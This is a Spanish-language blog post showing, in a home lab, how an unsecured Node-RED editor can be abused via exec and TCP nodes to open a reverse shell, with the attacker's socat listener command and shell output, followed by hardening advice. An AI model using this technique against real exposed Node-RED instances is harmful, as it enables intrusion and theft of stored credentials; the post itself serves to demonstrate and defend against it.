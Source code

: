 ```yaml
---
title: '¿Por qué deberías proteger Node-RED?'
date: '2023-01-15'
tags: []
draft: false
authors: ['default']
summary: 'Reto CTF que consiste en comprometer sistemas que utilizan Node-RED, una herramienta de programación visual. Se explotan vulnerabilidades en los nodos "exec", "tcp in" y "tcp out" para establecer una shell reversa en el sistema. Se demuestra la importancia de proteger Node-RED mediante la configuración de la ventana de login, separación de credenciales, uso de HTTPS y deshabilitación de nodos innecesarios.'
images: ["/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg", "/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp"]
---
```


![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp)

¿Qué es Node-RED?
-----------------

Esta es la parte más aburrida del post, por lo que me voy a permitir el lujo de copiarlo de otro sitio en Internet.


 Node-RED es una herramienta de **programación visual que se implementa en dispositivos controladores de *hardware*****.** Trabaja mostrando de manera visual las relaciones y funciones de manera que se pueda programar sin escribir. Es un **panel** de ***flow*** al que se pueden incorporar nodos que se comuniquen entre ellos y puede instalarse en equipos como ordenadores Windows, Linux, o en servidores en la nube. Este sistema de representaciónpuede ayudarte a visualizar gráficamente el flujo de la información y consiste en su representación gráfica.

En otras palabras, es una plataforma que mediante cajitas que hacen distintas cosas, eres capaz de crear un **workflow** de una forma visual y ver su representación de un solo vistazo.

Preparación del escenario
-------------------------

1. Arranco **Docker** en mi ordenador de casa con **Windows 11**.


```
@ikero ➜ ~ docker run -it -p 1880:1880 -v node_red_data:/data --name mynodered nodered/node-red
```
2. Mapeo el puerto *1880* del contenedor al *1880* de **Windows**, para que sea visible por otros equipos.

3. Confirmo que el contenedor está funcionando correctamente y podemos empezar con la prueba de concepto.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp)

⚠️Esta prueba se realiza utilizando contenedores Docker, pero es también posible hacerlo sin utilizar ninguna tecnología de contenedorización.De qué forma es vulnerable
--------------------------

Arranco una máquina virtual de tal forma que simularemos ser el atacante de la prueba. El esquema es el siguiente.

![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg)

Mi máquina virtual es capaz de acceder al puerto *1880* del PC con *Windows 11* corriendo el contenedor de **Node-RED**.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp)

Los nodos de los cuales voy a sacar provecho son los siguientes:

* **exec**: Ejecuta un comando de sistema y devuelve su salida.
* **tcp in**: Provee una muestra de acciones de entrada por TCP.
* **tcp out**: Provee una muestra de acciones de salida por TCP.

Son solamente necesarios estos tres nodos para comprometer el sistema. El siguiente flujo entabla una **shell reversa** por el puerto *9999*

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp)

Me pongo en escucha desde la máquina atacante con la IP 192.168.1.138 y veamos que ocurre.


```
sudo socat -d -d TCP-LISTEN:9999 STDOUT
# 2023/01/15 02:57:47 socat[64557] W ioctl(5, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
# 2023/01/15 02:57:47 socat[64557] N listening on AF=2 0.0.0.0:9999
# 2023/01/15 02:57:56 socat[64557] N accepting connection from AF=2 192.168.1.132:64267 on AF=2 192.168.1.138:9999
# 2023/01/15 02:57:56 socat[64557] N using stdout for reading and writing
# 2023/01/15 02:57:56 socat[64557] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
# node-red
ls /
# bin
# data
# dev
# etc
# healthcheck.js
# home
# lib
# media
# mnt
# opt
# proc
# root
# run
# sbin
# srv
# sys
# tmp
# usr
# var
```
Ya tenemos acceso a la Shell del contenedor Docker. No debemos pensar bajo ningún concepto que por el hecho de usar contenedores ya estamos protegidos. Existen varias vulnerabilidades de tipo [Container Escape Vulnerability](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities) que hace que no debamos bajar la guardia simplemente por el hecho de usar contenedores.

A partir de aquí, debes pensar que cualquier cosa que estuviese dentro de tu sistema (o en otros sistemas, porque también se puede acabar saltando hacia otros equipos vulnerables del entorno) ha podido ser robada. Ya sean **Api Keys** que utilizas para subir los datos a un proveedor **Cloud** o contraseñas para acceder a otros sistemas que hayas pensado que almacenarlos dentro de una carpeta del contenedor era una buena idea.

Cómo puedo hacerlo (un poco) más seguro.
----------------------------------------

Lo primero es seguir las recomendaciones que dice su propia página en https://nodered.org/docs/user-guide/runtime/securing-node-red.

En la primera línea nos encontramos el siguiente mensaje.

⚠️By default, the Node-RED editor is not secured - anyone who can access its IP address can access the editor and deploy changes.A partir de aquí, lo que debe ser un **MUST** en nuestra configuración debe ser:

* Habilitar la ventana de Login en todos los casos.
* Separar credenciales entre los editores de los flujos y los usuarios normales.
* Habilitar HTTPs. Aunque sea con certificados autofirmados.
* Deshabilitar aquellos nodos que creamos que no son necesarios para nuestro tipo de trabajo. O mejor aún, deshabilitar todos y habilitar SOLO aquellos que son necesarios.

Los flujos de Node-RED son, al fin y al cabo, una manera de desarrollar software "más sencilla". El hecho de ver una interfaz amigable no debe despistarnos de lo que es la plataforma en sí. Abrir la puerta a que cualquiera pueda desarrollar sus flujos sin ningún tipo de cuidado, puede ser peligroso.

